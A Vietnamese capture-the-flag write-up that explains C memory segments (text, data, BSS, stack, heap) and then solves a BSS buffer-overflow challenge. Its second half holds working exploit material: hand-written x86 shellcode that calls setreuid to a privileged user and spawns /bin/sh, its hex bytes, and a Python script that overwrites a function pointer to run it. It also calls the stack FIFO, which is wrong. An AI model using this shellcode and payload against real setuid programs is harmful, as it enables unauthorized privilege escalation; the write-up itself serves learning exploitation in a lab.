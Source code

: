 ##[RM]_BSS_bof
### Bộ nhớ
Bộ nhớ của một chương trình C khi chạy sẽ trông ntn
![memory](ảnh)
**Text Segment**: chứa mã assembly đã được biên dịch, đây là vùng readonly để tránh chương trình bị thay đôi ngoài ý muốn
**Data Segment**: gồm 2 phần
- phần `RD_ONLY`: chứa các biến const đã được khởi tạo
- phần `WR_RD`: chứa các biến toàn cục, static đã được khởi tạo

**BSS**: chứa các biến toàn cục, static được khởi tạo bằng 0 hoặc chưa được khởi tạo
**Stack**: vùng nhớ lưu các biến cục bộ, các biến tạm, địa chỉ trả về, các tham số truyền vào hàm, tuân theo cấu trúc `FIFO`
**Heap**: vùng nhớ dùng cho việc cấp phát động (`malloc()`, `calloc()`...), chỉ có thể giải phòng bằng câu lệnh `free()`, `Heap` cấp phát bộ nhớ lâu hơn `stack` do các vùng nhớ của `stack` là liên tục, việc cấp phát bộ nhớ động phụ thuộc vào thuật toán tối ưu của hệ điều hành, cấp phát và giải phóng nhiều có thể gây phân mảnh bộ nhớ...
```c
#include <stdio.h>
int main(){
    return 0;
}
```
Đây là 1 đoạn code C không có biến nào cả
Check size của nó

    $ gcc -o size size.c
    $ size size
    text    data     bss     dec     hex filename
    1418     544       8    1970     7b2 size
Giờ thêm một chút mắm vào
```c
#include <stdio.h>
int a;
static int b;
int main(){
    return 0;
}
```
    $ gcc -o size1 size.c
    $ size size1
    text    data     bss     dec     hex filename
    1418     544      16    1978     7ba size3
Chỉ mỗi giá trị của ``bss`` bị thay đổi. Nếu thêm 1 biến global nữa thì ``bss`` lại tăng lên ``24`` tức `8 byte` trong khi kiểu `int` chỉ dùng có `4 byte`?. Khi chương trình yêu cầu cấp phát, bộ nhớ sẽ cấp phát một lúc `8 byte` (chắc tùy vào cấu trúc hệ thống) và có lẽ hệ điều hành sử dụng thuật toán **`best fit`** để cấp phát bộ nhớ cho chương trình. Hiểu nôm na là hđh sẽ tìm không gian lưu trữ vừa vặn nhất để lưu biến đó? (Có đúng không nhỉ =)) )
### Challenge
**Source code**
```c
#include <stdio.h>
#include <stdlib.h>

char username[512] = {1};
void (*_atexit)(int) =  exit;

void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0; 
}

int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}
```
**K hiểu sao lại có tên BSS bof nữa =)))*
Checksec:

    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial
~~hầu hết đều disable~~ :)
Chương trình nhận tham số argv[1.], copy vào username và in nó ra .Username có độ lớn là 512 byte, ngay sau đó là `_atexit` chứa địa chỉ của exit? (có đúng k nhỉ =)) ). Nhìn qua có thể thấy hàm `cp_username` chỉ copy đầu vào của mình mà không giới hạn độ lớn, vì vậy đây là nơi mà chúng ta khai thác. `NX disable`, có thể chèn `shellcode`.
![overflow](cs1.png)
Thử chạy và có thể thấy rằng thanh ghi `eip` đã bị ghi đè
![value](cs3.png)
Giá trị của `_atexit` thực sự đã bị ghi đè. **Exploit** nó bằng cách overflow `username` đến `_atexit`, ghi đè giá trị cho nó return đến đúng `shellcode` của mình.
Bây giờ vấn đề là tìm đc `shellcode`.
Một điều quan trọng mà mình suýt bỏ qua đó là file `.passwd` chỉ đc mở bởi `app-systeme-ch7-cracked` nên shellcode rập khuôn trên mạng không thể đáp ứng được.
![user](cs2.png)
![user1](sc4.png)
Muốn đọc được file .passwd thì phải set được `UID` thành `app-systeme-ch7-cracked` `1207`(2 byte) và `GID` thành `app-systeme-ch7` `1107`(2 byte) Cứ để shellcode lo =)), việc của mình là viết được shellcode cái đã.
Thử dùng syscall setuid nhưng k đc, dùng [setreuid][1] thì lại đc =)) có vẻ như setuid chỉ set đc uid còn setreuid có thể set cả group id? (đoán thế :))
Đoạn assembly này mình dùng để set uid và đồng thời chạy file /bin/sh
Nếu mình dùng 2 thanh ghi ecx, ebx để mov giá trị của UID, GID vào thì sẽ thừa 2 byte do giá trị của chúng chỉ chiếm 2 byte mà 2 thanh ghi này lại có độ lớn 4 byte, shell code sẽ không hoạt động được nếu có null byte vì vậy để giảm thiểu hết mức có thể thì mình sẽ dùng 2 subreg là cx và bx (cũng có thể dùng bh, bl ...)
    
    push   0x46; syscall setreuid
    pop    eax
    mov    bx, 0x4b7; hex 1207
    mov    cx, 0x453; hex 1107
    int    0x80 ; call kenel
    ;execve("/bin/sh")
    xor    edx, edx
    push   0xb
    pop    eax
    push   edx
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx, esp
    push   edx
    push   ebx
    mov    ecx, esp
    int    0x80

[1]:<https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md>
Biên dịch file .asm ra rồi dùng objdump để lấy đc shell hoặc ném code assembly vào [đây][2]

[2]:<https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=push+++0x46+%0D%0Apop++++eax%0D%0Amov++++bx%2C+0x4b7+%0D%0Amov++++cx%2C+0x453%0D%0Aint++++0x8++%0D%0Axor++++edx%2C+edx%0D%0Apush+++0xb%0D%0Apop++++eax%0D%0Apush+++edx%0D%0Apush+++0x68732f2f%0D%0Apush+++0x6e69622f%0D%0Amov++++ebx%2C+esp%0D%0Apush+++edx%0D%0Apush+++ebx%0D%0Amov++++ecx%2C+esp%0D%0Aint++++0x80&arch=x86-32&as_format=inline#assembly>
Ta được shellcode như thế này

    "\x6a\x46\x58\x66\xbb\xb7\x04\x66\xb9\x53\x04\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
    
Đầy đủ nguyên liệu rồi giờ exploit thôi

    ~$nano /tmp/exp.py
```python
import struct
ret = 0x804a040 #shellcode của mình được lưu ở biến username nên ta sẽ return nó về đó
shellcode = "\x6a\x46\x58\x66\xbb\xb7\x04\x66\xb9\x53\x04\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
payload = shellcode +"A"*(512 - len(shellcode))
payload += struct.pack("I",ret)
print payload
```
![exploit](sc5.png)